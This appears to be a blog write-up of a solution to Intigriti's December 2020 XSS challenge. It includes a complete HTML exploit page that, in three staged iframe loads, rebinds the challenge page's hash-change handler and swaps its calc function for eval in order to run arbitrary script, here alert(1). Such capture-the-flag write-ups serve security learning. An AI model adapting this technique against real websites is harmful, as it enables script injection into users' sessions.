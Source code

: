```yaml
---
layout: post
title: Solution to Intigriti's December 2020 XSS Challenge
subtitle: Multi stage payload that enables xss
# gh-repo: mannharleen/go-lambda-bcrypt
# gh-badge: [star, fork, follow]
tags: [xss, intigriti, iframe, onwindowchange]
comments: true
---
```


# Solution to Intigriti's December 2020 XSS Challenge

The solution below is the intended one and makes use of the ability to run arbitrary code using the below line:
```js
// script.js line 6
var operation = `${num1}${operator}${num2}`;
```

We use the ability to register `onwindowchange` event on the window embedded as an iframe. And run arbitrary code by changing the hash of the url. This works well as the iframe will not load the page on a hash change.

```html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <iframe id="ifr0" width="900" height="900"></iframe>
<script>
    let wait = new Promise(r => setTimeout(r, 800));;

    (async () => {
      let ifr0 = document.getElementById('ifr0')
      // num1=7&operator=%2B&num2=9
      console.log('step 1: start');
      ifr0.src = "https://challenge-1220.intigriti.io?num1=onhashchange&operator=%3D&num2=init&#original" // onhashchange === init
      console.log('step 1: end');
      
      await wait()
      console.log('step 2: start')
      ifr0.src= "https://challenge-1220.intigriti.io?num1=onhashchange&operator=%3D&num2=init&#1&num1=calc&operator=%3D&num2=eval"  // calc === eval
      console.log('step 2: end');
      
      await wait()
      console.log('step 3: start')
      ifr0.src= "https://challenge-1220.intigriti.io?num1=onhashchange&operator=%3D&num2=init&#1&num1=calc&operator=%3D&num2=eval&num1=alert(1)&operator=none&num2=none" // calc(<payload>)
      console.log('step 3: end');

    })();
  </script>
</body>
</html>
```